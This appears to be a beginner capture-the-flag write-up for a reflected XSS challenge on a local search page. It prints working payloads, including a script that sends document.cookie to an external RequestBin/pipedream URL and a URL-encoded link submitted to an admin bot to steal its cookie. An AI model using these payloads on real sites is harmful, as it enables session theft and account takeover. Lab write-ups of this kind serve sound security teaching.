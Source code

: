 ## Challenge 1: Reflected XSS on a Search Page (Beginner)

### Objective: 
Perform a reflected XSS attack by injecting JavaScript to steal the admin cookie.

### Write-up
The search page has a search bar that reflects the user input back to the page. This is a potential XSS vulnerability.

We know the search bar is vulnerable to XSS by inputting a simple script tage:
```
<script>alert('XSS')</script>
```
Our goal is to steal the admin cookie by injecting JavaScript code that sends the cookie to our server.

We know that the admin cookie will check every links that posted on the website for a period of time. We can use this to our advantage by creating a link that will send the admin cookie to our server through that POST request (Debug route).

First, we need to create a payload that get the cookie from the browser. We can use the following payload:
```html
<script>alert(document.cookie)</script>
```
This payload will display the cookie in an alert box.

Then we need to create a payload that sends the cookie to our server. We can use RequestBin to create a temporary server that help us to capture the cookie. We can use the following payload:
```html
<script>
    var img = new Image();
    img.src = "https://eno50641w4bu.x.pipedream.net/?q=" + encodeURIComponent(document.cookie);
</script>
```

Now we can build the final url that will be used in the search bar:
```
http://localhost:3000/search.php?query=%3Cscript%3Evar+img+%3D+new+Image%28%29%3Bimg.src+%3D+%22https%3A%2F%2Feno50641w4bu.x.pipedream.net%2F%3Fq%3D%22%2B%27%27%2BencodeURIComponent%28document.cookie%29%3B%3C%2Fscript%3E
```

We can now try to search for the url in the search bar and see if we can retrieve my own cookie.

Finally, we can post the link to the admin via the debug submission form and wait for the admin to click on the link. Once the admin clicks on the link, the cookie will be sent to our server and we can capture it using RequestBin.



